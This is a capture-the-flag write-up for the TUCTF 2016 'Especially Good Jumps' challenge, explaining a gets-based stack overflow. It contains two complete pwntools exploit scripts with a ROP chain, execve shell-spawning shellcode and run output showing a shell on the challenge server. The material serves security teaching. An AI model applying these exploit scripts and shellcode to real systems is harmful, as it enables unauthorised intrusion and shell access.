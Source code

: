 ```yaml
---
layout: post
title: "TUCTF 2016: Especially Good Jumps (pwn 75)"
author: f0rki
categories: writeup
tags: [cat/pwn, tool/binjitsu]
---
```


* **Category:** pwn
* **Points:** 75
* **Description:**

> Pop a shell.
> Binary is hosted at: 130.211.202.98:7575
> EDIT:
> ASLR is enabled on remote server.

## Write-up

We have classic stack-based buffer overflow vulnerability at hand:

```
│           0x0804853f      8d442410       lea eax, [esp + arg_10h]    ; 0x10
│           0x08048543      890424         mov dword [esp], eax
│           0x08048546      e885feffff     call sym.imp.gets
```

`gets` does not bounds-checking whatsoever. Let's check protection mechanisms.

```
checksec 23e4f31a5a8801a554e1066e26eb34745786f4c4
[*] '/media/ctf/tuctf2016/Especially Good Jumps (pwn 75)/23e4f31a5a8801a554e1066e26eb34745786f4c4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
```

Hooray. Nothing there. This should be easy. The description hinted that we need
to bypass ASLR. The binary also writes to a global variable called `meow`.
Interestingly when you compile a program with `-zexecstack`, it will not only
make the stack executable but also disable execute prevention on other
segments, such as `.bss`. So we could write something like `call esp` into
`meow` and return to it.

```
[0x08048420]> iS~bss
idx=25 vaddr=0x0804a040 paddr=0x00001030 sz=12 vsz=12 perm=--rw- name=.bss
```

The OS will map a whole page for `.bss` even though it's only 12 bytes. So we
can also write all of our shellcode into `.bss`. We'll use a minimal ROP chain
to achieve this.

1. call `gets(&meow)`
2. return to `&meow`

We'll use a simple shell spawning shellcode.


```python
#!/usr/bin/env python

from pwn import *  # NOQA

vulnbinp = "./23e4f31a5a8801a554e1066e26eb34745786f4c4"
velf = ELF(vulnbinp)

# determine how much we need to overwrite until retaddr
# pl = cyclic(201)
# cyclic -c i386 -l 0x6161616c
l = 44

sc = shellcraft.linux.sh()
sca = asm(sc)
log.info("Using shellcode\n" + sc)
log.info(hexdump(sca))

chain = ROP(velf)
chain.call('gets', [velf.symbols['meow']])  # write shellcode
chain.call(velf.symbols['meow'])  # return to shellcode

log.info("Using rop chain\n" + chain.dump())

pl = "A" * l
pl += str(chain)
# pl += "BBBB"
pl += "\n"
pl += str(0x42424242)

vp = process(vulnbinp)
# gdb.attach(vp)
# vp = remote("130.211.202.98", 7575)

vp.send(pl)

vp.sendline(sca)

vp.sendline()
vp.readline()

with context.local(log_level='debug'):
    vp.sendline("id")
    vp.sendline("pwd; ls -al;")
    vp.sendline("cat flag.txt")
    vp.clean_and_log()

vp.interactive()
vp.close()
```


```
[*] '/ctf/tuctf2016/Especially Good Jumps (pwn 75)/23e4f31a5a8801a554e1066e26eb34745786f4c4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
[*] Using shellcode
        /* push '/bin///sh\x00' */
        push 0x68
        push 0x732f2f2f
        push 0x6e69622f

        /* call execve('esp', 0, 0) */
        push (SYS_execve) /* 0xb */
        pop eax
        mov ebx, esp
        xor ecx, ecx
        cdq /* edx=0 */
        int 0x80
[*] 00000000  6a 68 68 2f  2f 2f 73 68  2f 62 69 6e  6a 0b 58 89  │jhh/│//sh│/bin│j·X·│
    00000010  e3 31 c9 99  cd 80                                  │·1··│··│
    00000016
[*] Loaded cached gadgets for './23e4f31a5a8801a554e1066e26eb34745786f4c4'
[*] Using rop chain
    0x0000:        0x80483d0 gets(134520904)
    0x0004:        0x804839d <adjust: pop ebx; ret>
    0x0008:        0x804a048 meow
    0x000c:        0x804a048 0x804a048()
    0x0010:           'eaaa' <pad>
[+] Opening connection to 130.211.202.98 on port 7575: Done
[DEBUG] Sent 0x3 bytes:
    'id\n'
[DEBUG] Sent 0xd bytes:
    'pwd; ls -al;\n'
[DEBUG] Sent 0xd bytes:
    'cat flag.txt\n'
[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЃ\x0\x9d\x83\x0H\xa0\x0��\x9d\x83\x0H\xa0\x0H\xa0\x0haaa, 1111638594 is an even number!
uid=1002(pwn75) gid=1002(pwn75) groups=1002(pwn75)
/home/pwn75
total 32
drwxr-x--- 2 root pwn75 4096 May 11 19:12 .
drwxr-xr-x 8 root root  4096 May 12 17:48 ..
-rw-r--r-- 1 root pwn75  220 May 11 18:54 .bash_logout
-rw-r--r-- 1 root pwn75 3637 May 11 18:54 .bashrc
-rw-r--r-- 1 root pwn75  675 May 11 18:54 .profile
-rwxr-xr-x 1 root pwn75 7548 May 11 18:48 easy
-r--r----- 1 root pwn75   44 May 11 18:52 flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
$

```

Done :)


For completeness reasons, here is the variant where we write `jmp esp` into
`meow` and return there. Well this exploit is kind of simpler.

```python
#!/usr/bin/env python

from pwn import *  # NOQA

vulnbinp = "./23e4f31a5a8801a554e1066e26eb34745786f4c4"
velf = ELF(vulnbinp)

# pl = cyclic(201)
# cyclic -c i386 -l 0x6161616c
l = 44

sc = shellcraft.linux.sh()
sca = asm(sc)
log.info("Using shellcode\n" + sc)

meow = u16(asm('jmp esp'))

pl = "A" * l  # fill stack
pl += p32(velf.symbols['meow'])  # return to meow
pl += asm(shellcraft.nop()) * 8  # some nops
pl += sca  # actual shellcode
# pl += "BBBB"
pl += "\n"
pl += meow  # write 'jmp esp' into meow

log.info("Sending payload:\n" + hexdump(pl))

vp = process(vulnbinp)
gdb.attach(vp)
# vp = remote("130.211.202.98", 7575)

vp.send(pl)

vp.sendline()
vp.readline()

with context.local(log_level='debug'):
    vp.sendline("id")
    vp.sendline("pwd; ls -al;")
    vp.sendline("cat flag.txt")
    vp.clean_and_log()

vp.interactive()
vp.close()
```

